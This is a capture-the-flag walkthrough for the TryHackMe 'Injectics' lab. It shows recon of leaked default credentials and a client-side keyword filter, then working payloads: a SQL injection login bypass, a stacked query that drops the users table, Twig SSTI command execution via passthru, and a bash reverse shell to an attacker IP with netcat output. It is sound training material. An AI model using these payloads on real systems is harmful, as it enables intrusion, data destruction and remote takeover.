 # Injectics THM

## Recon

### Page source

Found comment on `index.php`:

```html
<!-- Mails are stored in mail.log file-->
```

Its content:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

So we have default credentials after database is somehow deleted.

On `login.php` we found link to a JS file named `script.js`. Its content:

```js
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

	const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
            for (let keyword of invalidKeywords) {
                if (username.includes(keyword)) {
                    alert('Invalid keywords detected');
                   return false;
                }
            }

    $.ajax({
        url: 'functions.php',
        type: 'POST',
        data: {
            username: username,
            password: password,
            function: "login"
        },
        dataType: 'json',
        success: function(data) {
            if (data.status == "success") {
                if (data.auth_type == 0){
                    window.location = 'dashboard.php';
                }else{
                    window.location = 'dashboard.php';
                }
            } else {
                $("#messagess").html('<div class="alert alert-danger" role="alert">' + data.message + '</div>');
            }
        }
    });
});
```

It contains client side filter preventing SQL Injection. After attempting to log in with the credentials like `admin':pass` we have alert saying "Invalid keywords detected", but it's just bad implemented and we can simply skip that filtering phase using Burp Suite.

Another page `adminLogin007.php` is used to login as admin, maybe here we can use our gathered creds after database is deleted.

### Nmap scan

We found 2 open ports:

```
22/tcp open  ssh
80/tcp open  http
```

### Gobuster enumeration

We found directory `/phpmyadmin`, so we can assume that database is MySQL, Wappalyzer confirms that. After navigating here we have a login panel, but we are not bruteforcing it.

We also found file `/composer.json` with content `twig/twig:	"2.14.0"`, so there might be possibility of SSTI.

## Exploitation of SQL Injection

Capture login request with Burp Suite. It sends POST request to `/functions.php`. Send it to repeater and try to make a request. 

![](/images/burp1.png)

We tested an input likely to cause an error, such as `user'`, but the response remained unchanged. 

After some tries of injecting various payloads, I found one which gives us different response:

![](images/burp2.png)

Using it directly on a login panel would return us an alert, so send it through Burp Suite. Make a normal request with login attempt, and in Burp change value of username to `user' or 'a' = 'a';#`

Now we are in a `dasboard.php` logged as dev. From what we know, he is one of admins. Assuming that website is vulnerable to SQL Injection, maybe there are also some flaws. We can edit countries medals in `edit_leaderboard.php`. We can try to type in "Gold" filed value like `20+40`. It redirected us to `dashboard.php`, but it now return result `60`.

We can try to use implemented function of "reseting" database. Come back here and type value `60; drop table users;#` to delete table "users" mentioned in file `mail.log`.

![](images/droptable.png)

After injecting that, we have a response:

```
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

So it turned out, that our payload worked. After a minute refresh a browser and login as admin on `adminLogin007.php` page with one of gathered credentials. We logged in succesfully as admin, and there is our first flag.

## Exploitation of SSTI Injection

We found a new page, `update_profile.php`. Knowing that a website uses Twig template, we can try to search for SSTI. On `dashboard.php` page we see a greeting "Welcome, admin!". It's the same as a value in "First Name" field on `update_profile.php` page. Modify it to somtehing like `{{7+7}}`. Submit it and return to "Home". We see new greeting, "Welcome, 14!". SSTI confirmed, let's exploit it.

After experimenting with various payloads, I discovered that the `sort` filter in Twig allows the use of `passthru` as a callable, leading to remote command execution.

```
{{['id', '']|sort('passthru')}}
```

After navigating to "Home", we have a greeting "Welcome, uid=33(www-data) gid=33(www-data) groups=33(www-data) Array!", so RCE through SSTI confirmed.

![](images/id.png)

Let's try to make a reverse shell. Set up netcat listener on a port 4444 or whatever and inject payload:

```
{{['bash -c "exec bash -i >& /dev/tcp/[YOUR_IP]/4444 0>&1"', ''] | sort('passthru')}}
```

![](images/revshellpayload.png)

Click submit and return on "Home" page. It will make a connection to our machine. In a working directory is subdirectory `/flags`, go here and retrieve flag form a `.txt` file.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [YOUR_IP] from (UNKNOWN) [10.10.150.176] 57692
bash: cannot set terminal process group (710): Inappropriate ioctl for device
bash: no job control in this shell
www-data@injectics:/var/www/html$ ls
ls
...
flags
...
www-data@injectics:/var/www/html$ cd flags
cd flags
www-data@injectics:/var/www/html/flags$ ls
ls
5d8af1dc14503c7e4bdc8e51a3469f48.txt
```
